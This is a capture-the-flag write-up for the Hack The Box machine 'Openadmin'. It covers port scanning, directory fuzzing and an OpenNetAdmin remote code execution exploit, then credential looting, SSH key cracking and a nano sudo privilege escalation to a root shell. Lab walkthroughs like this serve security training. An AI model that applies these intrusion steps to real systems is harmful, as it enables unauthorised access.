 ```yaml
---
date: 2020-05-17
layout: post
title: "Openadmin"
subtitle: Hackthebox
description:
image: /writeup/assets/img/openadmin/openadmin.png
optimized_image:
category: Hackthebox
tags: OpenNetadmin
author:
paginate: false
---
```


Starting with the nmap scan,
```bash
nmap -T4 -p- -A 10.10.10.171
```
Found 2 open ports.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   470.80 ms 10.10.14.1
2   455.86 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.60 seconds
```
Opening the website hosted at port 80.We get a default apache2 page.
Fuzzing for directories and pages 
```bash
ffuf -w wordlist -u http://10.10.10.171/FUZZ -e .php,.html
```
We get directories **/music** and **/ona**.
![placeholder](/writeup/assets/img/openadmin/music.png "website")
Music directory contains a fine website and ona directory contains the OpenNetAdmin panel.
![placeholder](/writeup/assets/img/openadmin/panel.png "ona")

The version of opennetadmin is 18.1.1 which is vulnerable to a remote code execution exploit.
![placeholder](/writeup/assets/img/openadmin/ona.png "exploit")

Using the exploit we get a shell.
```bash
exp.sh http://10.10.10.171/ona/
```
![placeholder](/writeup/assets/img/openadmin/shell.png "shell")

Eumerating thorugh the machine we get a file */var/www/ona/local/config* which contains password for user jimmy.

Inside the /var/www directory, we get a direcctory named Internal . index.php isnide the internal directory contains a username jimmy and a hash which on reverse lookup comes to be **Revealed**.
Looking for open ports
```bash
netstat -tulpn
``` 
![placeholder](/writeup/assets/img/openadmin/ports.png "ports")
We found 1 unusual port 52846.
Maybe a site is hosted internally as it seems to be by the name of directory and the open port 52846.

Inside /etc/apache2/sites_enabled, we get three conf file, one among which states that a site is being operated internally.
```conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htbbloodninjas
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
Let's connect and see what can we get.
Since we know by looking in the files inside Internal directory tht index.php will be used to login and then main.php will show the ssh private key of user joanna.

```bash
curl -s http://127.0.0.1:52846/index.php -c cookie -d “username=jimmy&password=Revealed”
# -c is used to store session data in a cookie named cookie
# -d holds the data to provided in login form
```
and then
```bash
curl  -s http://127.0.0.1:52846/main.php -b cookie
#-b to fetch the cookie named cookie
```
We get the ssh private key for user joanna.
Cracking the key with john shows the passphrase.

```bash
$ ssh2john.py priv_key > hash
$ john --wordlist=rockyou.txt hash
```
Logged in thorugh ssh using the private key.

```bash
ssh -i priv_key joanna@10.10.10.171
```
Got the joanna's shell as well as user.txt.

```bash
sudo -l
```
![placeholder](/writeup/assets/img/openadmin/sudo.png "sudo")
This shows that we can open /opt/priv by nano with root privileges.

Time for GTFObins.

Got the command needed to escalate our privileges
Open the file /opt/priv with root privileges as stated in sudoers file 
```bash
sudo /bin/nano /opt/priv 
```
Now ***Ctrl+R*** then ***Ctrl+X***

We will get tab at bottom to write command to execute.

Type 
***reset; sh 1>&0 2>&0*** 

Got the root shell and the root.txt.


